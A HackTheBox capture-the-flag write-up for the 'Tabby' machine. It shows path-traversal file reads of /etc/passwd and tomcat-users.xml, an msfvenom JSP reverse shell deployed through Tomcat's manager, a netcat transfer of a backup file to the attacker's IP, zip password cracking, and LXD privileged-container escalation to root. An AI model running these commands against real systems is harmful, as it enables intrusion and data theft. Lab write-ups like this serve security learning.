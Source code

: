 ```yaml
---
layout: post
title: "Tabby"
date: 2022-03-05
categories: [HackTheBox]
tags: [LFI, tomcat, war file, fcrackzip, lxd]
image: ../../assets/img/posts/Tabby.png

---
```


|**Machine**|[Tabby](https://app.hackthebox.com/machines/Tabby)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egre55](https://app.hackthebox.com/users/1190)|

---

Before getting started, let's first connect to HackTheBox vpn and run the machine.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -p- -A -oN nmap_scan 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878224-da096a04-9998-4e1a-b659-789894e020d9.png)

nmap result tell us that there are 3 ports 22(SSH), 80(http), 8080(http) are open.

Let's get to know about what technologies are running on port 80

```bash
whatweb http://10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878456-731c2023-bdb0-4530-9ad6-77763c8b7d77.png)

here we can see that email gives us a hint that we might resolve **megahosting.htb** domain with the machine's IP by editing **/etc/hosts file**

let's find what technologies are running on this domain,

```bash
whatweb http://megahosting.htb:8080/docs/
```

![image](https://user-images.githubusercontent.com/67465230/156878227-0026ac79-3c20-4555-94e5-ee4f462e16e1.png)

visiting http://10.10.10.194,

![image](https://user-images.githubusercontent.com/67465230/156878235-51073e88-42ca-433b-a70d-e1d5a80b7a85.png)

we land on main webpage.

Let's visit port 8080 on http://10.10.10.194:8080 as well,

![image](https://user-images.githubusercontent.com/67465230/156878241-7a553b4e-3b95-4481-9f98-bf7ea8130fc2.png)

and we can see that Users are defined in **/etc/tomcat9/tomcat-users.xml** file.

after trying everything, I found that http://megahosting.htb/news.php?file=statement has LFI vulnerability.

![image](https://user-images.githubusercontent.com/67465230/156878245-1e1a2584-53d9-4da1-a9fb-0610014b96c9.png)

we can see /etc/passwd by going to http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/67465230/156878249-fca889d9-4274-4cc0-8f5a-e1ff76e2068d.png)

and there's a **Ash** user. 

let's visit http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![image](https://user-images.githubusercontent.com/67465230/156878251-ccea820a-a83f-4ac4-afbd-677bed15b28a.png)

we got blank page. Let's view the source code,

![image](https://user-images.githubusercontent.com/67465230/156878252-c5baab16-6822-4d3a-932a-2594ab94aeaf.png)

we got credentials of tomcat user.

Let's try to ssh into the system, our ssh login failed  

```bash
ssh 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878265-d4ef5ca9-fce6-4d23-bb41-587f0ccadb50.png)

Now, we'll go to host-manager-webapp on http://megahosting.htb:8080/

![image](https://user-images.githubusercontent.com/67465230/156878259-460bd85d-a2a9-45de-b972-79fa90ec06bd.png)

Ahh! Finally we arrive at manager page,

![image](https://user-images.githubusercontent.com/67465230/156878262-509bdbcf-4874-4f41-b789-7bdcb52c28a9.png)

after loging into manager page, now we'll create a payload using `msfvenom`,

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=1234 -f war > sh.war
```

and upload shell into web directory of website,

```bash
curl -u 'tomcat:' -T sh.war 'http://megahosting.htb:8080/manager/text/deploy?path=/home/shell'
```

![image](https://user-images.githubusercontent.com/67465230/156878276-281ddad8-369d-4eb3-94e5-e41ea9e767d0.png)

now start netcat listener by `nc -nvlp 1234` and trigger the uploaded shell on website

```bash
curl -u 'tomcat:******************' http://megahosting.htb:8080/home/shell/
```

![image](https://user-images.githubusercontent.com/67465230/156878697-2fc83bd9-ee22-43bf-89f0-579bd9df18e5.png)

after we execute it we'll get reverse connection,

![image](https://user-images.githubusercontent.com/67465230/156878284-7c7ca3c7-aba9-429b-87ef-de1285897e2b.png)

and now we'll upgrade shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![image](https://user-images.githubusercontent.com/67465230/156878288-539e22db-4b72-429c-bd02-e0bea312263d.png)

now we'll download file into our system by typing command in our machine 

```bash
nc -nvlp 5555 > 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878295-8b0f7980-8309-4f32-a563-8019b8140cfe.png)

and other command in that obtained shell,

```bash
nc -w 3 10.10.14.18 5555 < 16162020_backup.zip
``` 

![image](https://user-images.githubusercontent.com/67465230/156878299-67b6af1c-16c5-4957-ac7f-32a44b2a6eef.png)

Now that we have a zip file protected with password, we can try to crack the password with fcrackzip with a provided password list,

```bash
fcrackzip -D -p /home/kali/HTB/tabby/rockyou.txt 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878908-cc19a0ea-a3da-445b-be5e-70c445b8282e.png)

now switching to Ash user in shell and we can capture the user flag 

```bash
su ash
```

![image](https://user-images.githubusercontent.com/67465230/156878942-46aaaa5e-bb8e-43bd-8680-7946a7742055.png)

Now we have to do Privilege Escalation for root flag

now download this file in tabby dir in kali

![image](https://user-images.githubusercontent.com/67465230/156878303-27c4e8ee-1c24-41de-bfe4-ce054adc41d8.png)

after downloading,

![image](https://user-images.githubusercontent.com/67465230/156878313-337ff292-f7cb-42f4-ad5b-b2ffb91e12de.png)

and we'll download this file in the shell by writing this command on the shell side 

```bash
nc -lp 6666 > alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878318-765c3e03-622d-4c18-aff6-05c62447efa5.png)

and this command in our machine

```bash
nc -w 3 10.10.10.194 6666 < alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878323-1203c010-9f85-4484-8b4c-7b7eb3599c3c.png)

and now run this series of command

```bash
lxc  image import alpine-v3.12-x86_64-20201023_0344.tar.gz --alias ctfimage
lxc image list
lxc ctfimage tabbyimage -c security.privileged=true
lxc init ctfimage tabbyimage -c security.privileged=true
lxc config device add tabbyimage mydevice disk source=/ path=/mnt/root recursive=true
lxc start tabbyimage
lxc exec tabbyimage /bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/156878328-6eb35b16-7585-4478-9a56-07859bb33408.png)

we got the root access to the system. We can now grab this root flag. (: